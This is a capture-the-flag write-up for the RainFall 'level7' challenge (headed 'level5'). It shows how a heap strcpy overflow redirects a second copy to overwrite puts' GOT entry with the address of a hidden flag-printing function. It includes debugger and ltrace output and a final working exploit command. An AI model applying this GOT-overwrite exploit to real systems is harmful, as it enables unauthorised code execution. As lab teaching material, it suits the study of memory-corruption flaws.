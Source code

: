 # level5
Four sections in the program:

- It copies `argv[1]` and `argv[2]` using `strcpy` into two  allocated memory blocks of 8 bytes each, without checking the size of the input.

- The program reads the aimed flag file with `fopen` then `fgets` and store the flag in a global string named `c`.

- At the end, it prints a useless message  with `puts("~~")`

- A function `m` prints the content of `c` but is never called.

## Goal
Overflow the allocated memory to call `m()` instead of `puts()` to print the flag.

## Step 1
The program SEGFAULTS when `argv[1]` is too long.


```console
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A youhouu
Starting program: /home/user/level7/level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A youhouu

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8f82 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb)
```
- `0xb7eb8f82` is not a segment of the pattern.  

- Deduction : The overflow doen'st overwrites the next instruction pointer `eip`.

---

Info registers
```console
(gdb) i r
eax            0x68756f79	1752526713
ecx            0xbffff8e0	-1073743648
edx            0x37614136	929120566
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff69c	0xbffff69c
ebp            0xbffff6c8	0xbffff6c8
esi            0x0	0
edi            0x0	0
eip            0xb7eb8f82	0xb7eb8f82
eflags         0x210246	[ PF ZF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

It overwrite `eax` and `edx`

## Step 2
Go deeper

```bash
level7@RainFall:~$ ltrace ./level7 AAAA ok
```

```console
__libc_start_main(0x8048521, 3, 0xbffff7c4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                                     = 0x0804a008
malloc(8)                                                                                                     = 0x0804a018
malloc(8)                                                                                                     = 0x0804a028
malloc(8)                                                                                                     = 0x0804a038
strcpy(0x0804a018, "AAAA")                                                                                    = 0x0804a018
strcpy(0x0804a038, "ok")                                                                                      = 0x0804a038
fopen("/home/user/level8/.pass", "r")                                                                         = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
`argv[1]` is copied at `0x0804a018`: "AAAA"  
`argv[2]` is copied at `0x0804a038`: "ok"

---

```bash
level7@RainFall:~$ ltrace ./level7 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH ok
```

```console
__libc_start_main(0x8048521, 3, 0xbffff7a4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                                     = 0x0804a008
malloc(8)                                                                                                     = 0x0804a018
malloc(8)                                                                                                     = 0x0804a028
malloc(8)                                                                                                     = 0x0804a038
strcpy(0x0804a018, "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH")                                                        = 0x0804a018
strcpy(0x46464646, "ok" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
The first copy using `strcpy` is too long (greater than 8 bytes). Therefore, it overwrites the destination of the second copy.

### Solution
Since the destination of the second copy is modified, We can set the destination to the  `puts`'s location in the GOT.  

So we can copy `m`'s address at the new destination.

## Step 3
Find the address of `m`
```bash
(gdb) info function
```
```console
All defined functions:

Non-debugging symbols:
0x080484f4  m
0x08048521  main
```

`m` is at `0x080484f4`

## Step 4
Find the address of the __GOT__ where  `puts`'s address is stored.
```bash
readelf -r level7
```
```console
08049928  00000607 R_386_JUMP_SLOT   00000000   puts
```

`puts` is at `0x08049928` in the GOT.

### Verification
```console
(gdb) disas main
[...]
0x080485f7 <+214>:	call   0x8048400 <puts@plt>
[...]
(gdb) disas 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x08048406
```


## Exploit
```bash
/home/user/level7/level7 $(python -c 'print "\x90" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```